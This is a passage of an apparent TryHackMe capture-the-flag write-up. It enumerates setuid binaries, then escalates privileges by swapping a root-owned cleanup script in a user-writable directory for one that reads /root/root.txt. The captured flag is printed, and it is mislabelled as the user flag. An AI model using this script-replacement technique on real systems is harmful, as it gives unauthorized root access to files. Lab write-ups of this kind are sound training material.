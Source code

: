```bash
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
```

<p><code>/home/brian/admin/manageaccounts</code></p>

```bash
brian@racetrack:~/admin$ file /home/brian/admin/manageaccounts
/home/brian/admin/manageaccounts: setuid, setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=d5ed0e2c2d72ff6ac45e41e85444b76de6b3cdf3, not stripped
```

```bash
brian@racetrack:~/cleanup$ pwd
/home/brian/cleanup
brian@racetrack:~/cleanup$ ls -lah
total 12K
drwxr-xr-x  2 brian brian 4.0K Apr 23  2020 .
drwxr-xr-x 11 brian brian 4.0K Apr 23  2020 ..
-rwxr--r--  1 root  root    17 Apr 23  2020 cleanupscript.sh
brian@racetrack:~/cleanup$ mv cleanupscript.sh cleanupscript.bak
brian@racetrack:~/cleanup$echo cho 'cat /root/root.txt > /home/brian/FLAG.txt' > cleanupscript.sh
brian@racetrack:~/cleanup$ chmod +x cleanupscript.sh
```


```bash
brian@racetrack:~/cleanup$ ls -lah
total 16K
drwxr-xr-x  2 brian brian 4.0K Aug 10 xx:xx .
drwxr-xr-x 11 brian brian 4.0K Aug 10 xx:xx ..
-rwxr--r--  1 root  root    17 Apr 23  2020 cleanupscript.bak
-rwxr-xr-x  1 brian brian   42 Aug 10 xx:xx cleanupscript.sh
brian@racetrack:~/cleanup$ cd ..
brian@racetrack:~$ ls
admin  cleanup  FLAG.txt  user.txt  website
brian@racetrack:~$ cat FLAG.txt
THM{55a9d6099933f6c456ccb2711b8766e3}

brian@racetrack:~$ 
```


<img width="1688" height="283" alt="image" src="https://github.com/user-attachments/assets/506d0eea-8482-4ca1-87b3-8ead7f551b74" />

<br>

<p>1.1. User flag<br>
<code>THM{55a9d6099933f6c456ccb2711b8766e3}</code></p>

<br>
<br>
